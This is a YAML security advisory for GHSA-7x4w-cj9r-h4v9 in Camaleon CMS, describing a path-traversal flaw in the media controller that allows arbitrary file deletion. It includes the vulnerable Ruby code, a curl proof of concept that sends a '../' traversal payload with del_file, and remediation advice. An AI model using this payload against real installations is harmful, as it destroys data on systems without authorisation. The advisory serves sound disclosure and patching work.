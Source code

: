 ```yaml
---
layout: advisory
title: 'GHSA-7x4w-cj9r-h4v9 (camaleon_cms): Camaleon CMS vulnerable to remote code
  execution through code injection (GHSL-2024-185)'
comments: false
categories:
- camaleon_cms
advisory:
  gem: camaleon_cms
  ghsa: 7x4w-cj9r-h4v9
  url: https://github.com/owen2345/camaleon-cms/security/advisories/GHSA-7x4w-cj9r-h4v9
  title: Camaleon CMS vulnerable to remote code execution through code injection (GHSL-2024-185)
  date: 2024-09-18
  description: |
    The [actions](https://github.com/owen2345/camaleon-cms/blob/feccb96e542319ed608acd3a16fa5d92f13ede67/app/controllers/camaleon_cms/admin/media_controller.rb#L51-L52)
    defined inside of the MediaController class do not check whether a
    given path is inside a certain path (e.g. inside the media folder).
    If an attacker performed an account takeover of an administrator
    account (See: GHSL-2024-184) they could delete arbitrary files or
    folders on the server hosting Camaleon CMS. The
    [crop_url](https://github.com/owen2345/camaleon-cms/blob/feccb96e542319ed608acd3a16fa5d92f13ede67/app/controllers/camaleon_cms/admin/media_controller.rb#L64-L65)
    action might make arbitrary file writes (similar impact to GHSL-2024-182)
    for any authenticated user possible, but it doesn't seem to work currently.

    Arbitrary file deletion can be exploited with following code path:
    The parameter folder flows from the actions method:
    ```ruby
      def actions
        authorize! :manage, :media if params[:media_action] != 'crop_url'
        params[:folder] = params[:folder].gsub('//', '/') if params[:folder].present?
        case params[:media_action]
        [..]
        when 'del_file'
          cama_uploader.delete_file(params[:folder].gsub('//', '/'))
          render plain: ''
    ```
    into the method delete_file of the CamaleonCmsLocalUploader
    class (when files are uploaded locally):
    ```ruby
    def delete_file(key)
      file = File.join(@root_folder, key)
      FileUtils.rm(file) if File.exist? file
      @instance.hooks_run('after_delete', key)
      get_media_collection.find_by_key(key).take.destroy
    end
    ```
    Where it is joined in an unchecked manner with the root folder and
    then deleted.

    **Proof of concept**
    The following request would delete the file README.md in the top
    folder of the Ruby on Rails application. (The values for auth_token,
    X-CSRF-Token and _cms_session would also need to be replaced with
    authenticated values in the curl command below)
    ```
    curl --path-as-is -i -s -k -X $'POST' \
        -H $'X-CSRF-Token: [..]' -H $'User-Agent: Mozilla/5.0' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'Accept: */*' -H $'Connection: keep-alive' \
        -b $'auth_token=[..]; _cms_session=[..]' \
        --data-binary $'versions=&thumb_size=&formats=&media_formats=&dimension=&private=&folder=..
    2F..
    2F..
    2FREADME.md&media_action=del_file' \
        $'https://<camaleon-host>/admin/media/actions?actions=true'
    ```

    **Impact**

    This issue may lead to a defective CMS or system.

    **Remediation**

    Normalize all file paths constructed from untrusted user input
    before using them and check that the resulting path is inside the
    targeted directory. Additionally, do not allow character sequences
    such as .. in untrusted input that is used to build paths.

    **See also:**

    [CodeQL: Uncontrolled data used in path expression](https://codeql.github.com/codeql-query-help/ruby/rb-path-injection/)
    [OWASP: Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
  cvss_v3: 7.2
  patched_versions:
  - ">= 2.8.1"
  related:
    url:
    - https://github.com/owen2345/camaleon-cms/security/advisories/GHSA-7x4w-cj9r-h4v9
    - https://github.com/owen2345/camaleon-cms/commit/f5d032549fa0a204d06e738caf2663607967dee2
    - https://github.com/advisories/GHSA-7x4w-cj9r-h4v9
---
```

